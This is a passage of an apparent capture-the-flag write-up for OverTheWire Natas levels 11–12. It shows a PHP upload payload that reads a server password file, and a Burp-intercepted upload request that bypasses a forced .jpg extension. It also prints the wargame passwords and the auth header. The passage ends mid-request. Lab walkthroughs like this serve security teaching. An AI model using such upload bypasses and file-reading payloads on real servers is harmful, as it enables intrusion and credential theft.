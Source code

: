 After refreshing the page, we get the password for the next level.

```
The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
```

## Level 12

user: natas12

password: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

In this challenge, we can upload that we can then access. The goal in this type of challenge is to run PHP code on the server. I create a simple file with the following function, which puts the contents of a file into a string.

https://www.php.net/manual/en/function.file-get-contents.php


From previous levels, we know that the flag for the next level will be at this location:

```
/etc/natas_webpass/natas13
```

Therefore, I can make the script:

```
<?php
$homepage = file_get_contents('/etc/natas_webpass/natas13');
echo $homepage;
?>
```

However, when I upload this file it changes to a JPG. To fix this, I intercept the web request for uploading a file using BurpSuite and I see that the ``jpg`` extension is hard-coded on the webpage.

```
POST /index.php HTTP/1.1
Host: natas12.natas.labs.overthewire.org
Content-Length: 507
Cache-Control: max-age=0
Authorization: Basic bmF0YXMxMjpFRFhwMHBTMjZ3TEtIWnkxckRCUFVaazBSS2ZMR0lSMw==
Upgrade-Insecure-Requests: 1
Origin: http://natas12.natas.labs.overthewire.org
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZsRZsuZgRjxQOk0y
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://natas12.natas.labs.overthewire.org/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryZsRZsuZgRjxQOk0y
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
------WebKitFormBoundaryZsRZsuZgRjxQOk0y
Content-Disposition: form-data; name="filename"

SOMENUMBERS.JPG
------WebKitFormBoundaryZsRZsuZgRjxQOk0y
Content-Disposition: form-data; name="uploadedfile"; filename="test.php"
Content-Type: application/octet-stream


<?php
$homepage = file_get_contents('/etc/natas_webpass/natas13');
```